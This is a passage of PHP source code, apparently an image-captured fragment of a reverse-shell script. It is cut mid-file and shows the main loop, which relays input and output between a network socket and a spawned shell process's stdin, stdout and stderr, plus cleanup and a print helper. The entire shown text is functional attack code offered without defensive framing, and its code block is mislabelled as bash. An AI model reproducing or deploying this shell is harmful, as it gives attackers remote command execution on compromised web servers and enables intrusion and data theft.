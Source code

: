 ```bash
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
